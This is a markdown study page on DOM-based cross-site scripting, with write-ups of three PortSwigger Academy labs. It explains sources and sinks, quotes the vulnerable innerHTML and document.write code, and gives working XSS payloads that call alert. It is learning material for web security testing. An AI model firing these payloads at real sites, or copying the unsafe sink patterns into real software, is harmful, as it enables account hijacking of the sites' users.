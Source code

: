 ```yaml
---
sidebar_position: 7
image: "https://www.cloudflare.com/img/learning/security/threats/cross-site-scripting/xss-attack.png"
tags: ["DOM"]
---
```


## DOM-based cross-site scripting

DOM-based XSS (also known as [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)) arises when an application contains some client-side JavaScript that processes data from an untrusted source in an unsafe way, usually by writing the data back to the DOM.

In the following example, an application uses some JavaScript to read the value from an input field and write that value to an element within the HTML:

```
var search = document.getElementById('search').value;
var results = document.getElementById('results');
results.innerHTML = 'You searched for: ' + search;
```

If the attacker can control the value of the input field, they can easily construct a malicious value that causes their own script to execute:

`You searched for: <img src=1 onerror='/* Bad stuff here... */'>`

In a typical case, the input field would be populated from part of the HTTP request, such as a URL query string parameter, allowing the attacker to deliver an attack using a malicious URL, in the same manner as reflected XSS.

## What is DOM-based cross-site scripting?

DOM-based XSS vulnerabilities usually arise when JavaScript takes data from an attacker-controllable source, such as the URL, and passes it to a sink that supports dynamic code execution, such as `eval()` or `innerHTML`. This enables attackers to execute malicious JavaScript, which typically allows them to hijack other users' accounts.

To deliver a DOM-based XSS attack, you need to place data into a source so that it is propagated to a sink and causes execution of arbitrary JavaScript.

The most common source for DOM XSS is the URL, which is typically accessed with the `window.location` object. An attacker can construct a link to send a victim to a vulnerable page with a payload in the query string and fragment portions of the URL. In certain circumstances, such as when targeting a 404 page or a website running PHP, the payload can also be placed in the path.

For a detailed explanation of the taint flow between sources and sinks, please refer to the [DOM-based vulnerabilities](https://portswigger.net/web-security/dom-based) page.

## How to test for DOM-based cross-site scripting

The majority of DOM XSS vulnerabilities can be found quickly and reliably using Burp Suite's [web vulnerability scanner](https://portswigger.net/burp/vulnerability-scanner). To test for DOM-based cross-site scripting manually, you generally need to use a browser with developer tools, such as Chrome. You need to work through each available source in turn, and test each one individually.

### Testing HTML sinks

To test for DOM XSS in an HTML sink, place a random alphanumeric string into the source (such as `location.search`), then use developer tools to inspect the HTML and find where your string appears. Note that the browser's "View source" option won't work for DOM XSS testing because it doesn't take account of changes that have been performed in the HTML by JavaScript. In Chrome's developer tools, you can use `Control+F` (or `Command+F` on MacOS) to search the DOM for your string.

For each location where your string appears within the DOM, you need to identify the context. Based on this context, you need to refine your input to see how it is processed. For example, if your string appears within a double-quoted attribute then try to inject double quotes in your string to see if you can break out of the attribute.

Note that browsers behave differently with regards to URL-encoding, Chrome, Firefox, and Safari will URL-encode `location.search` and `location.hash`, while IE11 and Microsoft Edge (pre-Chromium) will not URL-encode these sources. If your data gets URL-encoded before being processed, then an XSS attack is unlikely to work.

### Testing JavaScript execution sinks

Testing JavaScript execution sinks for DOM-based XSS is a little harder. With these sinks, your input doesn't necessarily appear anywhere within the DOM, so you can't search for it. Instead you'll need to use the JavaScript debugger to determine whether and how your input is sent to a sink.

For each potential source, such as `location`, you first need to find cases within the page's JavaScript code where the source is being referenced. In Chrome's developer tools, you can use `Control+Shift+F` (or `Command+Alt+F` on MacOS) to search all the page's JavaScript code for the source.

Once you've found where the source is being read, you can use the JavaScript debugger to add a break point and follow how the source's value is used. You might find that the source gets assigned to other variables. If this is the case, you'll need to use the search function again to track these variables and see if they're passed to a sink. When you find a sink that is being assigned data that originated from the source, you can use the debugger to inspect the value by hovering over the variable to show its value before it is sent to the sink. Then, as with HTML sinks, you need to refine your input to see if you can deliver a successful XSS attack.

## Lab: DOM XSS in `document.write` sink using source `location.search`

> This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability in the search query tracking functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search`, which you can control using the website URL.
> To solve this lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that calls the `alert` function.

--> So i just searched for `test` and intercepted the request and found this js code at the bottom of source code.

```html
<script>
  function trackSearch(query) {
    document.write(
      '<img src="/resources/images/tracker.gif?searchTerms=' + query + '">'
    );
  }
  var query = new URLSearchParams(window.location.search).get("search");
  if (query) {
    trackSearch(query);
  }
</script>
```

--> So here our query is wrapper between double quotes so first we have to close that and also after that we have to close the angular bracket also. So our final payload will look like this:

```html
">
<script>
  alert(1);
</script>
```

And we solved the lab!

## Lab: DOM XSS in `document.write` sink using source `location.search` inside a select element

> This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability in the stock checker functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search` which you can control using the website URL. The data is enclosed within a select element.
> To solve this lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that breaks out of the select element and calls the `alert` function.

--> I found this js code in check stock functionality from inspect element.

```js
var stores = ["London", "Paris", "Milan"];
var store = new URLSearchParams(window.location.search).get("storeId");
document.write('<select name="storeId">');
if (store) {
  document.write("<option selected>" + store + "</option>");
}
for (var i = 0; i < stores.length; i++) {
  if (stores[i] === store) {
    continue;
  }
  document.write("<option>" + stores[i] + "</option>");
}
document.write("</select>");
```

--> Here the website is taking the storeId from user and writing it in the document. After that it's running a loop which will find that storeId in stores array.

But we can trigger alert in first write method which is

```js
document.write('<select name="storeId">');
```

So here first we have to close the double quote and tag. And also we have to close the `select` tag to trigger alert.

so final payload will look like this:

```html
"></select><script>alert(1)</script>
```

It triggered the popup, but it didn't solved the lab! idk why :/

So i tried the image payload which will also trigger alert on error.

```html
"></select><img src=x onerror=alert(1)>
```

And you have to pass the payload in URL because there is no input given.

Final payload:

```
productId=1&storeId="></select><img src=x onerror=alert(1)>
```

## Lab: DOM XSS in `innerHTML` sink using source `location.search`

> This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability in the search blog functionality. It uses an `innerHTML` assignment, which changes the HTML contents of a `div` element, using data from `location.search`.
> To solve this lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that calls the `alert` function.

--> I found this js in search functionality

```js
function doSearchQuery(query) {
  document.getElementById("searchMessage").innerHTML = query;
}
var query = new URLSearchParams(window.location.search).get("search");
if (query) {
  doSearchQuery(query);
}
```

So here we just have to use normal image payload to trigger alert.

```html
<img src="x" onerror="alert(1)" />
```
